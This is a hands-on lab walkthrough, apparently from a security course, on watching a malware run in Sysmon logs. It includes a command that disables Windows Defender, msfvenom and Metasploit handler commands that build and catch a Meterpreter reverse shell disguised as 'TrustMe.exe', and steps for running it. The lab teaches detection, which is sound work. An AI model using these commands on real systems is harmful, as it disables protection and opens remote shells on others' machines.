



# Sysmon

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###

On your Linux system, please run the following command:

$`ifconfig`

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Now, run the following commands to start a simple backdoor and backdoor listener: 
 

 `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

Now, we will need to open an cmd.exe terminal as Administrator.

When you get the pop up select Yes.

Next, to open a Command Prompt Window, select the Down Carrot  and then select Command Prompt.

Then, type the following:

C:\Windows\system32>`cd \Tools`

C:\Tools>`Sysmon64.exe -accepteula -i sysmonconfig-export.xml`

It should look like this:

let's run the following commands to run the TrustMe.exe file.

`cd \tools`
 
 `TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

Now, we need to view the Sysmon events for this malware:

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

        …………………………………………………………….

Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

